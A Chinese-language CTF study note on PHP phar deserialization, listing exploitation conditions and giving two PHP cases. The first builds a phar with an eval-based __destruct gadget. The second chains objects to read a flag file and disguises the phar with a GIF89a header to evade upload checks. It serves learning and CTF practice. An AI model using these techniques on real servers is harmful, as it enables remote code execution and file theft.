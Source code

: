 
## **phar序列化**
phar序列化学习
<https://www.cnblogs.com/CoLo/p/16786627.html>

phar之所以能反序列化，是因为Phar文件会以序列化的形式存储用户自定义的`meta-data`,PHP使用`phar_parse_metadata`在解析meta数据时，会调用`php_var_unserialize`进行反序列化操作。


利用条件
```
ctf题中php.ini中的phar.readonly选项，需要为Off（默认是on）

1、phar文件可被上传至服务器，上传后可被phar://协议读取
//即要求存在file_get_contents、fopen、highlight_file这种函数
include、require、include_once、require_once、highlight_file 、
show_source 、readfile 、file_get_contents 、fopen 、file、
file_exists



phar文件可以改名为任意后缀，只要能被伪协议读取即可。

2、要有可利用的魔术方法
//这个的话用一位大师傅的话说就是利用魔术方法作为"跳板"

3、文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤
//一般利用姿势是上传Phar文件后通过伪协议Phar来实现反序列化，伪协议Phar格式是`Phar://`这种，如果这几个特殊字符被过滤就无法实现反序列化
```
![](.topwrite/assets/image_1728379138816.png)

## **案例**
一般ctf中审计出代码中的可利用类，比如这里的test类有魔术方法。
生成phar文件，访问生成phartest.phar。
```
<?php 
class test{
    public $name="qwq";
    function __destruct()
    {
         eval($this->name);
    }
}
$a = new test();
$a->name="phpinfo();";
$phartest=new phar('phartest.phar',0);//生成时后缀名必须为phar，生成后可以改
$phartest->startBuffering();//开始缓冲 Phar 写操作
$phartest->setMetadata($a);//自定义的meta-data存入manifest
$phartest->setStub("<?php __HALT_COMPILER();?>");//设置stub，stub是一个简单的php文件。PHP通过stub识别一个文件为PHAR文件，可以利用这点绕过文件上传检测
$phartest->addFromString("test.txt","test");//添加要压缩的文件
$phartest->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```
将phartest.phar文件上传目标服务器。
再使用phar://伪协议去触发，实现反序列化后通过利用类代码执行。
```
<?php
class test{
    public $name="";
    public function __destruct()
    {
        eval($this->name);
    }
}
$phardemo = file_get_contents('phar://phartest.phar/test.txt');
echo $phardemo;
```


^
## **案例2**


```

<?php
class C1e4r
{
    public $test;
    public $str;
    public function __construct($name)
    {
        $this->str = $name;
    }
}

class Show
{
    public $source;
    public $str;
    public function __construct($name)
    {
        $this->str['str'] = $name;
    }
}

class Test
{
    public $params;
    public function __construct()
    {
        $this->params['source'] = '/var/www/html/f1ag.php';		// 一定要是绝对路径
    }
}

$c = new Test;
$b = new Show($c);
$a = new C1e4r($b);
echo base64_encode(serialize($a)); //test

$phar = new Phar("phar.phar");
$phar->startBuffering();
//$phar->setStub("__HALT_COMPILER(); ?>");
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");  //设置stub，增加gif文件头
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```
生成phar.phar文件后，可改后缀为phar.jpg上传服务器，再伪协议phar://upload/phar.jpg即可触发。
如果是触发读文件需要有回显，如echo





